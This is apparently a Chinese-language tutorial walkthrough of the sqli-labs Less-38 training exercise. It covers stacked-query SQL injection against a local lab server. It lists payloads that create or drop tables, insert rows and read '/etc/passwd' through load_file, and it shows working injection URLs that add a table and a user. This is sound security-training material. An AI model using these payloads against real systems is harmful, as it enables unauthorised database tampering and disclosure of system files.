





# Less - 38

---

# 一、补充知识

---

堆叠查询注入攻击可以执行多条语句，多语句之间以分号隔开。堆叠查询注入就是利用这个特点，在第二个SQL语句中构造自己的要执行的语句  
新建一个表select * from users;create table A like users;  
删除创建的A表select * from users;drop table test;  
查询数据select * from users;select B,C,D;  
加载文件select * from users;select load_file('/etc/passwd');  
增加一条数据select * from users;insert into users values(18,'zhong','zhong');

---

二、通关教程

---

## 1、判断闭合方式

---

```http
http://192.168.23.128/sqli-labs/Less-38/?id=1'
```

​​

根据错误信息判断闭合方式为'--+，并且为字符型注入

---

## 2、在security库下增加一个表

---

```http
http://192.168.23.128/sqli-labs/Less-38/?id=1'; create table test like users;–+
```

​​

没有任何反应，我们进入数据库看看我们的表是否创建成功

​​

## 3、创建一个新用户

---

```http
http://192.168.23.128/sqli-labs/Less-38/?id=1'; insert into users values(18,'cmx','cmx');–+
```

​​

​​
